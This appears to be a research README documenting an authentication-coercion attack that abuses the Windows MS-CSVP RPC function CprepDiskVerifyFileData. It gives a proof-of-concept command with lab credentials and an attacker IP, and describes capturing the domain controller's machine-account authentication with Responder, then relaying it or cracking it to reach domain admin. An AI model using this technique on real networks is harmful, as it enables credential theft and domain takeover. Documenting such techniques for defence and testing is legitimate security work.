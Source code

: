 # MS-CSVP - Remote call to CprepDiskVerifyFileData (opnum 18)

## Summary

+ **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

+ **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CprepDiskVerifyFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/232aa384-959a-4b3f-8c3f-dd4bb0ba6fde)

+ **Function operation number**: `18`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepDiskVerifyFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/232aa384-959a-4b3f-8c3f-dd4bb0ba6fde) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepDiskVerifyFileData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepDiskVerifyFileData(
   [in] CPREP_DISKID DiskId,
   [in] unsigned long ulPartition,
   [in, string] wchar_t* FileName,
   [in] unsigned long cbDataIn,
   [in, size_is(cbDataIn)] byte* DataIn
 );
```

## References

+ Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

+ Documentation of function `CprepDiskVerifyFileData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/232aa384-959a-4b3f-8c3f-dd4bb0ba6fde